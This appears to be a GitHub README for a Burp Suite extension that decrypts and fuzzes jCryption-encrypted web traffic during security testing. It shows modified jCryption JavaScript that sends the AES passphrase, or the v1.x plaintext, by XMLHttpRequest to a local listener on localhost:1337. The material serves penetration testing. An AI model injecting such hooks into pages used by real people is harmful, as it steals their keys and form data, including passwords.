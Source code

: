 # Features
## Hijacking jCryption JavaScript for automatic passphrase retrieval
JCryption hold the passphrase for encrypt the exchanged data with the web server in your browser memory.
<br>
For retrieve the passphrase I have implemented a "match and replace" rule in Java in order to hook the JCryption JavaScript.
<br>

The original code is the following :

```javascript
/**
  * Authenticates with the server
  * @param {string} AESEncryptionKey The AES key
  * @param {string} publicKeyURL The public key URL
  * @param {string} handshakeURL The handshake URL
  * @param {function} success The function to call if the operation was successfull
  * @param {function} failure The function to call if an error has occurred
  */
  $.jCryption.authenticate = function(AESEncryptionKey, publicKeyURL, handshakeURL, success, failure) {
    $.jCryption.getPublicKey(publicKeyURL, function() {
      $.jCryption.encryptKey(AESEncryptionKey, function(encryptedKey) {
        $.jCryption.handshake(handshakeURL, encryptedKey, function(response) {
          if ($.jCryption.challenge(response.challenge, AESEncryptionKey)) {
            success.call(this, AESEncryptionKey);
          } else {
            failure.call(this);
          }
        });
      });
    });
  };
```

I replace the "success.call(this, AESEncryptionKey);" with another JavaScript payload in order to send the content of "AESEncryptionKey" by an asyncronous XMLHttpRequest to "localhost:1337" address.

That is the modified code :

```javascript
  /**
  * Authenticates with the server
  * @param {string} AESEncryptionKey The AES key
  * @param {string} publicKeyURL The public key URL
  * @param {string} handshakeURL The handshake URL
  * @param {function} success The function to call if the operation was successfull
  * @param {function} failure The function to call if an error has occurred
  */
  $.jCryption.authenticate = function(AESEncryptionKey, publicKeyURL, handshakeURL, success, failure) {
    $.jCryption.getPublicKey(publicKeyURL, function() {
      $.jCryption.encryptKey(AESEncryptionKey, function(encryptedKey) {
        $.jCryption.handshake(handshakeURL, encryptedKey, function(response) {
          if ($.jCryption.challenge(response.challenge, AESEncryptionKey)) {
            setTimeout(function(){ success.call(this, AESEncryptionKey); }, 888); var x = new XMLHttpRequest(); x.open("GET", "https://localhost:1337/?p="+AESEncryptionKey, true); x.send();
          } else {
            failure.call(this);
          }
        });
      });
    });
  };
```

Note that the "setTimeout" is to delay the "success.call()" execution, because sometimes I lost the first encrypted request done by the web application.
<br>
In that way the plugin have the time to intercept the request to "localhost:1337" and import the current passphrase before the first usage by the Web Application :)

## Hijacking JavaScript to exploit the Insecure Implementation of RSA Encryption in jCryption v1.x
The jCryption v1.x use RSA Encryption like a block cipher and without padding with random values, so two plaintext encrypted with the same RSA Public key produce the same ciphertext.
<br>
In jCryption v2.x and v3.x I hijacked the javascript for retrive the encryption key but for v1.x I send the plaintext to "localhost:1337" before it is encrypted.
<br>
After retrive the plaintext I use the RSA Public key for encrypt and hash the result, so when the encrypted HTTP request reach the proxy I can match the hash of the ciphertext with the hash created before.
<br>
If the hashes match I using the plaintext directly instead decrypt the ciphertext with a passphrase (with RSA Encryption you can't do it).

Following the hijacked javascript:

```javascript
	$.jCryption.encrypt = function(string,keyPair,callback) { var x = new XMLHttpRequest(); x.open("GET", "http://localhost:1337/?p="+encodeURIComponent(string), true); x.send();
		var charSum = 0;
		for(var i = 0; i < string.length; i++){
			charSum += string.charCodeAt(i);
		}
		var tag = '0123456789abcdef';
		var hex = '';
		hex += tag.charAt((charSum & 0xF0) >> 4) + tag.charAt(charSum & 0x0F);

		var taggedString = hex + string;

		var encrypt = [];
		var j = 0;

		while (j < taggedString.length) {
			encrypt[j] = taggedString.charCodeAt(j);
			j++;
		}

		while (encrypt.length % keyPair.chunkSize !== 0) {
			encrypt[j++] = 0;
		}

		function encryption(encryptObject) {
[...]
```
<br>
The encrypted data will have the following format:
<br>
block(01) || '+' || block(02) || '+' || ... || block(N-1) || '+' || block(N)
<br>

## New Burp Suite tab (logger, preferences, about)
The plugin add some custom tabs to Burp Suite in order to:
- show a copy of all requests (and their responses) that contains the encrypted parameter in the "Logger" tab.<br>
That is useful because the passphrase can change (for example after a logout or a page refresh) but in that tab I save the passphrase for each request logged,
and also the decrypted parameters.

- setup the plugin by the "Preferences" tab.<br>
You can setup a custom data parameter name (in case of JCryption customization), force or see the current passphrase, enable/disable the plugin without unload it. 

- show the "About" tab.<br>
You can find the link to this project on github for follow the development and/or check for an updated version :)

## Message Editor
By implementing the *IMessageEditorTabFactory* it was possible add a new functionality to *HTTP Request* tab,
in order to show the decrypted parameter values.
If you send the request to the *Repeater* you can also modify on-the-fly the decrypted parameter values, like a common plain HTTP request,
and send to the Web Server.

## Active Scanner
By implementing the *IScannerInsertionPointProvider* it was possible add custom insertion points in the decrypted parameter values.
Let me explain by using the example from http://www.jcryption.org/#examples
<br>
Watch the following HTTP request:

```
POST /jcryption.php HTTP/1.1
Host: www.jcryption.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://www.jcryption.org/
Content-Length: 124
Cookie: PHPSESSID=v3dsjcdn087v01p0hpthrbnp73
Connection: close

jCryption=U2FsdGVkX1%2FwzApLDTaLUIM3rcxQIVdfJfDgDbZbieUWN6ynbmRsc2er7ii9ZbQv6fRYpfynF4TPyWgpLgbD%2Ba9rEGbE3YFmXBWBInTnlvg%3D
```
The decrypted "jCryption" parameter values are :

```
email=john%40smith.com&password=1234&role=Admin&remember=on
```

With the Active Scan hook it was possible fuzzing the POST parameters hidden in the encrypted data by make the "email", "password", "role" and "remember" parameters as additional insertion points.

## New menu options
By implementing the *IContextMenuFactory* it was possible add some useful functionalities to Burp Suite.
<br>
I added two main functions : "Send to Repeater" and "Send to Active Scan".
<br>
In a normal context it was a fake new functionaly but JCryption is not a normal context.
<br>
When you make a new session you have also a new passphrase, then the old requests are not valid even if you update manually the "Cookies" in your request.
In that case you need decrypt the old request with the associated (oldest) passphrases and then encrypt with the current.
By the way you can choose if using the "original session" or the "current session", for all two menu functions added.

## Passive Scanner
By implementing the *IScannerCheck* and the *IScanIssue* it was possible add the detection/usage of jCryption v1.x in order to add a new issue to your Security Report ;)
<br>
The jCryption v1.x have a known Security Issue, related to a bad implementation of RSA Encryption. You can see the Security Advisory <a href='http://www.securityfocus.com/archive/1/520683'>here</a>
<br>

(To be continued)

